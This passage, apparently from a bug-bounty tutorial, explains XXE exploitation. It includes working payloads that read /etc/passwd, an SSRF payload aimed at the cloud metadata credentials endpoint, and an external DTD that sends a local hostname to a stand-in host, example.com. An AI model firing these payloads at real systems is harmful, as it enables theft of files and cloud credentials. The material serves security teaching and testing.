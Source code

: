 
These 3 conditions all help facilitate an XXE attack. Sending a malicious payload as shown below, we'd easily be able to load a local file that we specified in our external entity (`xxe`):

```js
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
    <post>
        <post_title>&xxe;</post_title>
        <post_desc>...</post_desc>
    </post>
</data>
```

![[Pasted image 20250313000510.png]]
### XXE to SSRF

Similarly, instead of declaring a path to a local file, we could also include a URL to an arbitrary host to perform [server-side request forgery attacks](https://www.intigriti.com/researchers/blog/hacking-tools/ssrf-a-complete-guide-to-exploiting-advanced-ssrf-vulnerabilities) and fetch the response.

```js
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY ssrf SYSTEM "https://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<data>
    <post>
        <post_title>&ssrf;</post_title>
        <post_desc>...</post_desc>
    </post>
</data>
```

## Exploiting advanced XXE vulnerabilities

### Exploiting XXE with external DTDs

In some cases, you'll come across targets that filter out the `file://` protocol and replace it with a blank value or block it altogether. To bypass this, we can make use of a special feature within XML, a Document Type Definition (DTD).

**A DTD is essentially a file that specifies the entities that we're using in our malicious XML structure.** Now, instead of declaring it locally (just as we did before) and having a security filter remove our `file://` protocol. We can declare our DTD in an external file and bypass the filtering entirely.

Suppose we got the following document type definition (DTD) file hosted on our server:

```js
<!ENTITY % hostname SYSTEM "file:///etc/hostname">
<!ENTITY % e "<!ENTITY &#x25; xxe SYSTEM 'http://example.com/?c=%hostname;'>">
%e;
%xxe;
```
